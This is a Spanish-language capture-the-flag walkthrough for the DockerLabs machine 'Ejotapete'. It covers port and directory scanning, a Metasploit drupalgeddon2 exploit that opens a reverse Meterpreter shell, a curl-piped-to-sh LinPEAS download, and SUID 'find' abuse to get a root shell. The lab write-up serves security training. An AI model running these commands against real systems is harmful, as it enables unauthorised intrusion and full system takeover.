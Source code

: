 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ejotapete DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip ejotapete.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh ejotapete.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 11:39 EDT
Nmap scan report for packer.pw (172.17.0.2)
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.68 seconds
```

Veremos un puerto `80` en el que aloja una pagina web, si entramos dentro veremos un `403 Forbidden` por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 290]
/drupal               (Status: 200) [Size: 8892]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que hay un `/drupal` por lo que vamos a entrar a ver si es el `CMS` real.

Si entramos veremos que efectivamente hay un `drupal`, este tipo de `CMS` tienen bastantes vulnerabilidades conocidas, por lo que vamos a ir a `metasploit` para desde ahi intentar explotar alguna vulnerabilidad si la tuviera, ya que no nos menciona la `version` vamos a probar a ciegas con algunos exploits conocidos.

## Escalate user www-data

### Metasploit (drupalgeddon2)

```shell
msfconsole -q
```

Una vez dentro vamos a buscar `drupal`.

```shell
search drupal
```

Elegiremos el numero `1` que es el modulo `unix/webapp/drupal_drupalgeddon2` ya que es con el que me ha funcionado.

```shell
use unix/webapp/drupal_drupalgeddon2
```

Una vez que lo hayamos seleccionado, vamos a configurarlo de esta forma:

```shell
set RHOSTS <IP_VICTIM>
set TARGETURI /drupal
set LPORT 9999
exploit
```

Seleccionamos el `TARGETURI` ya que el `drupal` no va en la raiz del puerto `80` por lo que tendremos que poner desde donde se esta suministrando.

Info:

```
[*] Started reverse TCP handler on 192.168.177.129:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.177.129:9999 -> 172.17.0.2:48976) at 2025-07-14 11:58:51 -0400

meterpreter > getuid
Server username: www-data
```

Veremos que ha funcionado y seremos dicho usuario.

## Escalate Privileges

Si lanzamos un `LinPEAS` podremos ver lo siguiente:

```shell
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-14 181647.png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos `find` con permisos `SUID` por lo que podremos hacer lo siguiente:

```shell
find . -exec /bin/bash -p \; -quit
```

Info:

```
bash-4.4# whoami
whoami
root
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina.
